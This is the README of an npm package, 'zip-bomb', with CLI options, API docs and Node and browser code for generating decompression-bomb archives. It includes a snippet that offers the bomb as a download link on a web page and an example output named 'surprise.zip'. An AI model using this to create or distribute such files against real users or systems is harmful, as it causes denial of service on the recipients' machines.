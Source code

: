 ## 💣 Zip bomb [![standard][standard-image]][standard-url] [![travis][travis-image]][travis-url] [![npm][npm-image]][npm-url]

[standard-image]: https://img.shields.io/badge/code%20style-standard-brightgreen.svg
[standard-url]: http://standardjs.com/
[travis-image]: https://img.shields.io/travis/harshjv/zip-bomb/master.svg
[travis-url]: https://travis-ci.org/harshjv/zip-bomb
[npm-image]: https://img.shields.io/npm/v/zip-bomb.svg
[npm-url]: https://npmjs.org/package/zip-bomb

> **CAUTION** THIS IS JUST AN EXPERIMENT. USE THIS AT YOUR OWN RISK. READ MORE ABOUT ZIP BOMB [HERE](https://en.wikipedia.org/wiki/Zip_bomb).

[Zip bomb](https://en.wikipedia.org/wiki/Zip_bomb) for Browser and Node.js.

> [⚡️ Live demo here](https://rawgit.com/harshjv/zip-bomb/master/example/index.html)

## Installation

    npm install zip-bomb

Checkout [API](#api) usage.


## Command line

    npm install -g zip-bomb


### Usage

    Usage: zip-bomb [options]

    Options:

      -h, --help                       output usage information
      -V, --version                    output the version number
      -b, --zero-buffer-size <number>  Zero buffer size
      -l, --buffer-level <number>      Buffer multiplier
      -z, --zip-level <number>         Level
      -o, --output <file>              Output file

    Example:

        zip-bomb -b 10485760 -l 10 -z 50 -o surprise.zip


## API

### `zipBomb.createBuffer(zeroBufferSize, bufferLevel, zipLevel)`

Creates ZIP file `Buffer`.

> returns `Promise`

#### Parameters

* `zeroBufferSize`
  * can be `Number`
  * creates buffer of 0s with provided size
* `bufferLevel`
  * can be `Number`
  * multiplies created buffer with zeros with provided buffer level
* `zipLevel`
  * creates zip `zeroBufferSize * bufferLevel` zeros of provided zip level


### `zipBomb.createDataURL(zeroBufferSize, bufferLevel, zipLevel)`

Creates `DataURL` (for use in browsers)

> returns `Promise`

#### Parameters

Same as `zipBomb.createDataURL(bufferMultiplier, level)`


## Usage

### In Node.js

    const fs = require('fs')
    const zb = require('zip-bomb')

    const fileName = 'zipbomb.zip'

    zb.createBuffer(1024 * 1024 * 10, 10, 10)
      .then((buffer) => {
        fs.writeFile(fileName, buffer, (err) => {
          if (err) throw err

          console.log(`${fileName} is created`)
        })
      })

> **WARNING** `zipbomb.zip` file is evil!


### In Browser (with Browserify or webpack)

    const zb = require('zip-bomb')

    zb.createDataURL(1024 * 1024 * 10, 10, 10)
      .then((dataURL) => {
        const a = document.createElement('a')
        const linkText = document.createTextNode('Click here to download zip bomb')

        a.appendChild(linkText)
        a.href = dataURL
        document.body.appendChild(a)
      })
      .catch((e) => console.error(e))

> Embed bundled file into an HTML page and click on the link to download generated zip bomb!

Or open [/example/index.html](/example/index.html) folder in browser.

## Debug

### In Node.js

Enable debug logs by setting the `DEBUG` environment variable.

    DEBUG=zip-bomb*

### In Browser

Enable debug logs by running this in the developer console.

    localStorage.debug = 'zip-bomb*'

and then reload.

## Test

    npm test

> `standard` only for now. More to come.


## License

MIT
